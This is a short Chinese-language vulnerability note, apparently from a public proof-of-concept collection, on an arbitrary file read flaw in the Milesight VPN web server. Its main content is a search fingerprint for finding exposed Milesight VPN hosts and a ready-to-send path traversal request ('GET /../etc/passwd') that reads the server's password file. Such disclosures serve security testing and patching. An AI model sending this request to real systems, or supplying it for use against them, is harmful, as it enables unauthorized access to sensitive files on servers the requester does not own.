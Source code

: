 # Milesight VPN server.js 任意文件读取漏洞

# Milesight VPN server.js 任意文件读取漏洞

## 漏洞描述

MilesightVPN 是一款软件，可使 Milesight 产品的 VPN 通道设置过程更加简便，并可通过网络服务器界面监控连接状态。其中存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感文件

## 漏洞影响

Milesight VPN

## 网络测绘

```
"MilesightVPN"
```

## 漏洞复现

登陆页面

![image-20230828161340509](images/image-20230828161340509.png)

验证POC

```
GET /../etc/passwd HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
```

![image-20230828161357209](images/image-20230828161357209.png)

